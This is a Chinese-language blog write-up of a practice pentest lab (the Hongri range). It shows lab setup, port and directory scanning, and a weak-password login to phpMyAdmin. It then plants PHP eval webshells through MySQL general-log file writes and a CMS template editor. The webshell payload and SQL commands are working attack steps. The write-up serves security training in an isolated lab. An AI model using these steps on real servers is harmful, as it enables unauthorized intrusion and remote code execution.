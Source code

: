```yaml
---
title: 红日靶场（一）
---
```

# 部署

新建一个网卡，网段为192.168.52.0的，然后把三台机子都连到这个网段

![image-20230923162445382](D:\blog-img\image-20230923162445382.png)

环境我是部署在的台式机上，攻击机是笔记本，所以我还把win7又接了一个网卡

![image-20230923162745791](D:\blog-img\image-20230923162745791.png)

## 靶机ip信息

> win7：192.168.10.40/192.168.52.143
>
> win server 2003：192.168.52.141
>
> win server 2008：192.168.52.1

## 遇到的问题

在win7里面启动phpstudy的时候会报错

> Exception EReadError in module phpStudy.exe at 0002D806
> Error reading CoolTraylcon1.Visible: Cannot create shell
> notification icon.

然后我把phpstudy的版本换成了2018的就好了

## 启动环境

win7启动phpstudy点击启动即可

![image-20230923163149218](D:\blog-img\image-20230923163149218.png)

win server 2008启动redis

```shell
redis-server.exe redis.windows.conf
```

![image-20230923163330770](D:\blog-img\image-20230923163330770.png)

# 外网

## 信息收集

## 扫端口和目录

端口扫描

```bash
nmap -sC -sV 192.168.10.40
```

![image-20230923163907425](D:\blog-img\image-20230923163907425.png)

浏览器访问网站，是一个php study探针

![image-20231012230930642](D:\blog-img\image-20231012230930642.png)

有一个mysql连接测试，输入root/root测试，连接成功

![image-20231012231055411](D:\blog-img\image-20231012231055411.png)

然后又用dirsearch扫目录，看看有没有新发现，发现有phpmyadmin，那就可以用刚刚试出来的弱口令去登录后台

![image-20231012231358593](D:\blog-img\image-20231012231358593.png)

## 利用mysql写日志getshell

发现有一个phpMyAdmin，用root/root弱口令成功登录

![image-20230923170238861](D:\blog-img\image-20230923170238861.png)

先执行 `select @@basedir;`查看网站的物理路径

![image-20231013104700595](D:\blog-img\image-20231013104700595.png)直接写文件到网站根目录下

语法：`select '<?php  @eval($_POST[shell]);?>' into outfile 'C:/phpStudy/www/shell.php';`

但是报错了

![image-20231013104958653](D:\blog-img\image-20231013104958653.png)

那就换个思路，利用mysql日志写文件

首先先查看日志状态，日志的状态和保存路径

```sql
show variables like '%general%';
```

![image-20231013105210932](D:\blog-img\image-20231013105210932.png)

首先要开启 `general_log`，然后再修改日志保存的文件，即可通过保存日志的方式去写文件

```sql
SET GLOBAL general_log='on';
SET GLOBAL general_log_file='C:/phpStudy/www/shell.php'
```

![image-20231013105806362](D:\blog-img\image-20231013105806362.png)

修改成功，然后就可以执行SQL语句，将一句话木马保存到 `shell.php`文件里了

````sql
select '<?php  @eval($_POST[shell]);?>'
````

蚁剑连接成功

![image-20231013110045049](D:\blog-img\image-20231013110045049.png)

进去后发现还有一个cms网站和一个 `beifen.rar`文件

![image-20231013110211794](D:\blog-img\image-20231013110211794.png)

## CMS后台上传shell

下载 `beifen.rar`文件发现是cms的网站源代码，先放着，后续再看，访问yxcms网站，在公告处告诉了后台地址和默认管理员账号密码

![image-20231013113421831](D:\blog-img\image-20231013113421831.png)

登陆后台，然后进入前台模板，然后点击管理模板文件，然后新建文件

![image-20231013113518545](D:\blog-img\image-20231013113518545.png)

写入一句话木马 `<?php  @eval($_POST[hack]);?>`

![image-20231013113620253](D:\blog-img\image-20231013113620253.png)

然后根据备份文件，找到模板存放地址，在 `/yxcms/protected/apps/default/view/default/`

![image-20231013114218367](D:\blog-img\image-20231013114218367.png)

蚁剑连接

![image-20231013114353739](D:\blog-img\image-20231013114353739.png)

# 内网

是管理员权限了，同时耶发现了存在有域

![image-20231013114522425](D:\blog-img\image-20231013114522425.png)
